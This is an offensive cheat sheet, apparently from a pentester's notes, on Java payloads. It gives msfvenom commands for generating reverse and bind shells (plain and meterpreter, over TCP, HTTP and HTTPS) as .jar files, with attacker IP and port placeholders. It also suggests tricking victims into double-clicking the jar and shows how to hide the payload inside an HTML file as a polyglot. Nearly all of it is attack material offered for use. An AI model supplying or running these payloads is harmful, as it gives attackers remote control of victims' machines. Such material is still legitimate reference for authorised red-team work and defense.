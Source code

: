 # Java

## 01 - Generate Payloads

### 1.1 - Reverse Shells

#### 1.1.1 - TCP

Staged reverse shell.

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Stageless reverse shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.2 - HTTP

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.3 - HTTP via TLS

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_https handlersslcert=[/path/to/certificate.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

### 1.2 - Bind Shells

Staged bind shell.

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o payload.jar
```

## 02 - Execute Payloads

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the payload especially when the target is windows.
> > [!TIP] Java Payloads
> > You can actually social engineer the victim to double click the `.jar` to establish connection.

```
> java -jar payload.jar
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.jar` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.html+payload.jar hidden_payload.html
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.html+payload.jar hidden_payload.html
```

Then execute it

```
C:\> java.exe -jar hidden_payload.html
```

---
## References

### Source Repositories

- [deepinstinct: JAR-Polyglot-POC](https://github.com/deepinstinct/JAR-Polyglot-POC)